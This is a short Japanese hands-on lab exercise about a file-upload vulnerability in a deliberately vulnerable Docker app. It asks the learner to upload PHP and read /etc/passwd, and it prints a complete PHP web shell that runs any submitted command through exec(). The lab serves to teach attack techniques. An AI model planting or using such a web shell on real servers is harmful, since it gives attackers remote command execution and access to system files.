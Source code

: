 ### 脆弱性の悪用


#### 脆弱なアプリケーションの起動

画面右下のターミナルで`docker-compose up`と入力し，アプリケーションを立ち上げましょう．  
その後，画面右上の疑似ブラウザの更新ボタンを押すと脆弱なアプリケーションが表示されます．  

#### 攻撃

このアプリケーションには、ユーザーアイコンをアップロード機能に脆弱性があり、アップロードしたスクリプトファイル(php)が動作してしまいます。
その攻撃を元にPHPファイルを作成し、OSコマンドを実行して/etc/passwdを取得してください。

例
```PHP
$cmd = $_POST['cmd']!=""? $_POST['cmd']:"";
exec($cmd==""?"cd ../ && ls":$cmd, $outs);
echo '<div style="width:500px;height:500px;overflow:scroll;background-color:black;color:white;font-size:10px;">';
foreach ($outs as $key => $out) {
    echo $out.'<br>';
}
echo '</div>';
echo "<form action='evil.php'method='post'><input id='cmd' name='cmd'style='width:463px' type='text'/><input type='submit' style='background-color:black;color:white;'/></form>";
```
